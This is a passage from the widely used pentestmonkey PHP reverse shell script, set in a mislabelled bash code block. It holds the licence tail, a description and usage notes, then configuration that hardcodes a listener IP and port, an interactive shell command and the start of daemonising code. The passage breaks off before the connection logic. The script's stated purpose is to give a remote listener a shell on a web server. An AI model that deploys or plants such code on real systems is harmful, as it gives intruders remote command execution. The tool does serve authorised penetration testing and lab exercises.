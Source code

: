 ```bash
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.166';  // My Ip
$port = 9002;       // Port i have a listener in
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

```